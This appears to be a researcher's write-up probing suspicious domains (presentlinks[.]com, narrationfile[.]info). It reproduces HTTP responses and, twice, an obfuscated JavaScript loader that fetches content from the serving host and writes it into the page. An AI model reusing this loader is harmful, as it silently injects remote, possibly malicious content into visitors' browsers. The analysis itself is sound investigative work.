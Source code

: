 ```
b'<script>window.history.pushState({},"", "/3090cd31948c37ec2ee2870f482da988");function _0x4eba(_0x4c03d2,_0xe4b087){const _0x3ccf2d=_0x3ccf();return _0x4eba=function(_0x4eba2c,_0x13dff7){_0x4eba2c=_0x4eba2c-0x14f;let _0x22a516=_0x3ccf2d[_0x4eba2c];return _0x22a516;},_0x4eba(_0x4c03d2,_0xe4b087);}(function(_0x5868e6,_0xfff814){const _0x61528b=_0x4eba,_0x48fdb1=_0x5868e6();while(!![]){try{const _0xbf18a1=-parseInt(_0x61528b(0x157))/0x1+-parseInt(_0x61528b(0x161))/0x2*(-parseInt(_0x61528b(0x15b))/0x3)+parseInt(_0x61528b(0x158))/0x4+parseInt(_0x61528b(0x159))/0x5*(-parseInt(_0x61528b(0x150))/0x6)+parseInt(_0x61528b(0x162))/0x7*(-parseInt(_0x61528b(0x14f))/0x8)+-parseInt(_0x61528b(0x160))/0x9+parseInt(_0x61528b(0x15a))/0xa*(parseInt(_0x61528b(0x152))/0xb);if(_0xbf18a1===_0xfff814)break;else _0x48fdb1[\'push\'](_0x48fdb1[\'shift\']());}catch(_0x1e48ac){_0x48fdb1[\'push\'](_0x48fdb1[\'shift\']());}}}(_0x3ccf,0xd0dc4),((()=>{let _0x1d24a4;function _0x317ee9(){const _0x34cb72=_0x4eba;_0x1d24a4=new XMLHttpRequest();if(!_0x1d24a4)return![];_0x1d24a4[_0x34cb72(0x156)]=_0x14768a,_0x1d24a4[_0x34cb72(0x15e)](_0x34cb72(0x151),\'?_ax=w\'),_0x1d24a4[_0x34cb72(0x154)](),console[_0x34cb72(0x15f)](_0x1d24a4[_0x34cb72(0x15d)]);}_0x317ee9();function _0x14768a(){const _0x3e6157=_0x4eba;_0x1d24a4[_0x3e6157(0x155)]===XMLHttpRequest[\'DONE\']&&(_0x1d24a4[\'status\']===0xc8?document[_0x3e6157(0x153)](_0x1d24a4[\'responseText\']):document[\'write\'](_0x3e6157(0x15c)));}})()));function _0x3ccf(){const _0x4e0fa3=[\'20iBklxX\',\'3RUyOcx\',\'404\\x20Not\\x20Found\',\'status\',\'open\',\'log\',\'4644783xMERJb\',\'1603608HBMLux\',\'851711lCRkkF\',\'8NjYPVK\',\'54906ougbtT\',\'GET\',\'9024521mDxWGt\',\'write\',\'send\',\'readyState\',\'onreadystatechange\',\'1107944AVyirZ\',\'853904xkZFwm\',\'30rgSiNk\'];_0x3ccf=function(){return _0x4e0fa3;};return _0x3ccf();}</script>
```

Yuck.

## Presentlinks[.]com

Presentlinks[.]com just redirects to Teh Google. I will have to try again later.

```
date: Sat, 22 Apr 2023 17:37:23 GMT\ncontent-type: text/html; charset=UTF-8\ntransfer-encoding: chunked\nlocation: https://google.com\nx-redir: true\nserver: swoole-http-server\nstrict-transport-security: max-age=15768000\n\n'
b'<!DOCTYPE html>\n<html>\n    <head>\n        <meta charset="UTF-8" />\n        <meta http-equiv="refresh" content="0;url=\'https://google.com\'" />\n\n        <title>Redirecting to https://google.com</title>\n    </head>\n    <body>\n        Redirecting to <a href="https://google.com">https://google.com</a>.\n    </body>\n</html>
```

## narrationfile[.]info

Narrationfile[.]info via https://narrationfile[.]info/?s1=350159&s2=969621543&s3=1782&s4=1710&ow=&s10=739 also wants to do javascript-y thing:

```
<script>window.history.pushState({},"", "/332e8945f258e8dfc9b805e249e704f5");function _0x4eba(_0x4c03d2,_0xe4b087){const _0x3ccf2d=_0x3ccf();return _0x4eba=function(_0x4eba2c,_0x13dff7){_0x4eba2c=_0x4eba2c-0x14f;let _0x22a516=_0x3ccf2d[_0x4eba2c];return _0x22a516;},_0x4eba(_0x4c03d2,_0xe4b087);}(function(_0x5868e6,_0xfff814){const _0x61528b=_0x4eba,_0x48fdb1=_0x5868e6();while(!![]){try{const _0xbf18a1=-parseInt(_0x61528b(0x157))/0x1+-parseInt(_0x61528b(0x161))/0x2*(-parseInt(_0x61528b(0x15b))/0x3)+parseInt(_0x61528b(0x158))/0x4+parseInt(_0x61528b(0x159))/0x5*(-parseInt(_0x61528b(0x150))/0x6)+parseInt(_0x61528b(0x162))/0x7*(-parseInt(_0x61528b(0x14f))/0x8)+-parseInt(_0x61528b(0x160))/0x9+parseInt(_0x61528b(0x15a))/0xa*(parseInt(_0x61528b(0x152))/0xb);if(_0xbf18a1===_0xfff814)break;else _0x48fdb1[\'push\'](_0x48fdb1[\'shift\']());}catch(_0x1e48ac){_0x48fdb1[\'push\'](_0x48fdb1[\'shift\']());}}}(_0x3ccf,0xd0dc4),((()=>{let _0x1d24a4;function _0x317ee9(){const _0x34cb72=_0x4eba;_0x1d24a4=new XMLHttpRequest();if(!_0x1d24a4)return![];_0x1d24a4[_0x34cb72(0x156)]=_0x14768a,_0x1d24a4[_0x34cb72(0x15e)](_0x34cb72(0x151),\'?_ax=w\'),_0x1d24a4[_0x34cb72(0x154)](),console[_0x34cb72(0x15f)](_0x1d24a4[_0x34cb72(0x15d)]);}_0x317ee9();function _0x14768a(){const _0x3e6157=_0x4eba;_0x1d24a4[_0x3e6157(0x155)]===XMLHttpRequest[\'DONE\']&&(_0x1d24a4[\'status\']===0xc8?document[_0x3e6157(0x153)](_0x1d24a4[\'responseText\']):document[\'write\'](_0x3e6157(0x15c)));}})()));function _0x3ccf(){const _0x4e0fa3=[\'20iBklxX\',\'3RUyOcx\',\'404\\x20Not\\x20Found\',\'status\',\'open\',\'log\',\'4644783xMERJb\',\'1603608HBMLux\',\'851711lCRkkF\',\'8NjYPVK\',\'54906ougbtT\',\'GET\',\'9024521mDxWGt\',\'write\',\'send\',\'readyState\',\'onreadystatechange\',\'1107944AVyirZ\',\'853904xkZFwm\',\'30rgSiNk\'];_0x3ccf=function(){return _0x4e0fa3;};return _0x3ccf();}</script>
```
